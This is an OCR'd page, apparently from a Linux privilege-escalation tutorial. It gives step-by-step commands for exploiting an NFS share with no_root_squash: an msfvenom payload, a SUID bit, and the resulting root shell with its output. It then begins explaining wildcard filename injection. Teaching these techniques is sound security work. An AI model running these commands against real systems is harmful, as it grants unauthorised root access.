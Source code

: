 ***
***

* * *

## **EXPLOIT NO_ROOT_SQUASH**

Create a mount point on your local machine and mount the /tmp NFS share:

# mkdir /tmp/nfs

# mount -o rw,vers=2 192.168.1.25:/tmp /tmp/nfs

Using the root user on your local machine, generate a payload and save it to the mounted share:

# msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o

/tmp/nfs/shell.elf

Make sure the file has the SUID bit set, and is executable by everyone:

# chmod +xs /tmp/nfs/shell.elf

On the target machine, execute the file to get a root shell:

$ /tmp/shell.elf
bash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)

* * *

## **WILDCARDS**

***
***
***
***

When a wildcard character (*) is provided to a command as part of an argument, the shell will first perform filename expansion (also known as

globbing) on the wildcard. This process replaces the wildcard with a space-separated list of the file and directory names in the current  directory. An easy way to see this in action is to run the following command from your home directory:

$ echo *

Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names.
